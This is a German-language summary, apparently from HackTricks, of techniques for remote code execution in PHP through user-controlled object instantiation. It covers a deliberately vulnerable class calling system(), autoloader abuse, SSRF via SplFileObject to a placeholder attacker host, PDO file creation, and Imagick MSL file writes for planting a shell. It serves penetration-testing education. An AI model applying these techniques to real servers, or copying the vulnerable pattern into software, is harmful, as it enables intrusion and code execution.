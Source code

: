 # PHP - RCE durch Ausnutzung der Objekterstellung: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Dies ist im Grunde eine Zusammenfassung von [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Einführung

Die Erstellung neuer willkürlicher Objekte, wie `new $_GET["a"]($_GET["a"])`, kann zu Remote Code Execution (RCE) führen, wie in einem [**Writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) detailliert beschrieben. Dieses Dokument hebt verschiedene Strategien zur Erreichung von RCE hervor.

## RCE über benutzerdefinierte Klassen oder Autoloading

Die Syntax `new $a($b)` wird verwendet, um ein Objekt zu instanziieren, wobei **`$a`** den Klassennamen und **`$b`** das erste Argument darstellt, das an den Konstruktor übergeben wird. Diese Variablen können aus Benutzereingaben wie GET/POST stammen, wo sie Strings oder Arrays sein können, oder aus JSON, wo sie als andere Typen erscheinen könnten.

Betrachten Sie den folgenden Codeausschnitt:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In diesem Fall führt das Setzen von `$a` auf `App` oder `App2` und `$b` auf einen Systembefehl (z.B. `uname -a`) zur Ausführung dieses Befehls.

**Autoloading-Funktionen** können ausgenutzt werden, wenn solche Klassen nicht direkt zugänglich sind. Diese Funktionen laden automatisch Klassen aus Dateien, wenn sie benötigt werden, und werden mit `spl_autoload_register` oder `__autoload` definiert:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Das Verhalten des Autoloadings variiert je nach PHP-Version und bietet unterschiedliche RCE-Möglichkeiten.

## RCE über eingebaute Klassen

Ohne benutzerdefinierte Klassen oder Autoloader können **eingebaute PHP-Klassen** für RCE ausreichen. Die Anzahl dieser Klassen liegt je nach PHP-Version und Erweiterungen zwischen 100 und 200. Sie können mit `get_declared_classes()` aufgelistet werden.

Konstruktoren von Interesse können über die Reflection-API identifiziert werden, wie im folgenden Beispiel und dem Link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) gezeigt.

**RCE über spezifische Methoden umfasst:**

### **SSRF + Phar Deserialisierung**

Die Klasse `SplFileObject` ermöglicht SSRF über ihren Konstruktor und erlaubt Verbindungen zu jeder URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kann in PHP-Versionen vor 8.0 unter Verwendung des Phar-Protokolls zu Deserialisierungsangriffen führen.

### **Ausnutzen von PDOs**

Der Konstruktor der PDO-Klasse ermöglicht Verbindungen zu Datenbanken über DSN-Strings, was potenziell die Erstellung von Dateien oder andere Interaktionen ermöglicht:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versionen von PHP bis 5.3.22 und 5.4.12 waren anfällig für XXE-Angriffe über die `SoapClient`- und `SimpleXMLElement`-Konstruktoren, abhängig von der Version von libxml2.

## RCE über die Imagick-Erweiterung

Bei der Analyse der **Abhängigkeiten eines Projekts** wurde festgestellt, dass **Imagick** für die **Befehlsausführung** durch die Instanziierung neuer Objekte genutzt werden kann. Dies bietet eine Gelegenheit zur Ausnutzung von Schwachstellen.

### VID-Parser

Die Fähigkeit des VID-Parsers, Inhalte an einen beliebigen angegebenen Pfad im Dateisystem zu schreiben, wurde identifiziert. Dies könnte zur Platzierung einer PHP-Shell in einem webzugänglichen Verzeichnis führen, was Remote Code Execution (RCE) ermöglicht.

#### VID-Parser + Datei-Upload

Es wird angemerkt, dass PHP hochgeladene Dateien vorübergehend in `/tmp/phpXXXXXX` speichert. Der VID-Parser in Imagick, der das **msl**-Protokoll verwendet, kann Platzhalter in Dateipfaden verarbeiten, was den Transfer der temporären Datei an einen gewählten Ort erleichtert. Diese Methode bietet einen zusätzlichen Ansatz, um beliebige Dateien im Dateisystem zu schreiben.

### PHP-Absturz + Brute Force

Eine Methode, die in der [**originalen Beschreibung**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beschrieben ist, beinhaltet das Hochladen von Dateien, die einen Serverabsturz auslösen, bevor sie gelöscht werden. Durch Brute-Forcing des Namens der temporären Datei wird es möglich, dass Imagick beliebigen PHP-Code ausführt. Diese Technik erwies sich jedoch nur in einer veralteten Version von ImageMagick als effektiv.

## Referenzen

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
